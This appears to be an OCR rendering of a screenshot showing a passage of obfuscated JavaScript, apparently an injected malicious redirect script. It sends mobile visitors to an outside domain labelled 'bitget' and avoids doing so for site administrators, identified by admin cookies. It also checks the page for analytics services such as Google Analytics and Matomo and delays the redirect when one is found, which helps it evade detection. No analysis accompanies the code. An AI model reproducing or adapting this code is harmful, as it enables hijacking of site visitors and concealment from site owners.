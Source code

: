 ``` js
    ) {
      _0x56bd89 = 'https://wweeza.com/redirect?from=bitget'
    } else {
      if (_0x152838.indexOf('shuanshu.com.com') !== -1) {
        _0x56bd89 = 'https://wweeza.com/redirect?from=bitget'
      } else {
        if (
          _0xc3b985.indexOf('.') !== -1 &&
          _0xc3b985.indexOf(_0x152838) == -1
        ) {
          _0x56bd89 = 'https://wweeza.com/redirect?from=bitget'
        } else {
          if (_0x394b64 >= 0 && _0x394b64 < 2) {
            _0x57dc62 <= 10 && (_0x56bd89 = _0x42c985)
          } else {
            if (_0x394b64 >= 2 && _0x394b64 < 4) {
              _0x57dc62 <= 15 && (_0x56bd89 = _0x42c985)
            } else {
              if (_0x394b64 >= 4 && _0x394b64 < 7) {
                _0x57dc62 <= 20 && (_0x56bd89 = _0x42c985)
              } else {
                if (_0x394b64 >= 7 && _0x394b64 < 8) {
                  if (_0x57dc62 <= 10) {
                    _0x56bd89 = _0x42c985
                  }
                } else {
                  _0x57dc62 <= 10 && (_0x56bd89 = _0x42c985)
                }
              }
            }
          }
        }
      }
    }
    _0x56bd89 != '' &&
      !isPc() &&
      document.cookie.indexOf('admin_id') == -1 &&
        document.cookie.indexOf('adminlevels') == -1 &&
        vfed_update(_0x56bd89)
  }
}
let tsastr = document.documentElement.outerHTML,
  bdtjfg = tsastr.indexOf('hm.baidu.com') != -1,
  cnzfg = tsastr.indexOf('.cnzz.com') != -1,
  wolafg = tsastr.indexOf('.51.la') != -1
let mattoo = tsastr.indexOf('.matomo.org') != -1,
  aanaly = tsastr.indexOf('.google-analytics.com') != -1,
  ggmana = tsastr.indexOf('.googletagmanager.com') != -1,
  aplausix = tsastr.indexOf('.plausible.io') != -1
let statcct = tsastr.indexOf('.statcounter.com') != -1
bdtjfg || cnzfg || wolafg || mattoo || aanaly || ggmana || aplausix || statcct
  ? setTimeout(check_tiaozhuan, 2000)
  : check_tiaozhuan()

```
